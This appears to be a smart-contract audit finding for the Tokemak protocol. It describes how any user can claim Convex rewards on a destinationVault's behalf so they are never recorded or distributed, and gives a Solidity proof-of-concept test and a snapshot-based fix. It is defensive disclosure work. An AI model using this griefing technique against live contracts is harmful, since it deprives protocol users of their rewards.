 Fancy Raspberry Urchin

high

# A malicious user can prevent rewards from being distributed for a Convex `destinationVault`.
## Summary

## Vulnerability Detail
The `Liquidator` will call `collectRewards` on the `destinationVault` to receive the accumulated rewards, record the rewards received, and distribute them to the users.

However, Convex can claim rewards on behalf of any user. 
(https://github.com/convex-eth/platform/blob/main/contracts/contracts/BaseRewardPool.sol#L263)

Therefore, if an arbitrary user claims a reward in `destinationVault`, even if it is not through Liquidator's `collectRewards`, the reward received in `destinationVault` will not be recorded and distributed to users.

This prevents reward distribution, a key feature of the protocol, from happening.

POC:
```solidity
    function test_ETHfrxETH_pool1() public {
        address curveLp = 0xf43211935C781D5ca1a41d2041F397B8A7366C7A;
        address curveLpWhale = 0x1577671a75855a3Ffc87a3E7cba597BD5560f149;
        address gauge = 0xbD5445402B0a287cbC77cb67B2a52e2FC635dce4;

        deal(curveLp, curveLpWhale, 1000 ether);
        transferCurveLpTokenAndDepositToConvex(curveLp, gauge, curveLpWhale);

        vm.prank(address(0xbad));
        gauge.call(
            abi.encodeWithSignature("getReward(address,bool)", address(this), true)
        );

        (uint256[] memory amountsClaimed, address[] memory rewardsToken) =
            ConvexRewards.claimRewards(gauge, CVX_MAINNET);

        assertEq(amountsClaimed.length, rewardsToken.length);
        assertEq(rewardsToken.length, 2);
        assertEq(address(rewardsToken[0]), CRV_MAINNET);
        assertTrue(amountsClaimed[0] > 0);
        assertEq(address(rewardsToken[1]), CVX_MAINNET);
        assertTrue(amountsClaimed[1] > 0);
    }
```

## Impact
A malicious user can prevent rewards from being distributed for a Convex `destinationVault`.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/CurveConvexDestinationVault.sol#L178-L180
https://github.com/convex-eth/platform/blob/main/contracts/contracts/BaseRewardPool.sol#L263
## Tool used

Manual Review

## Recommendation
It is recommended to understand the amount of rewards claimed compared to the previous snapshot, not the amount generated by the return value of the `claimRewards` function.
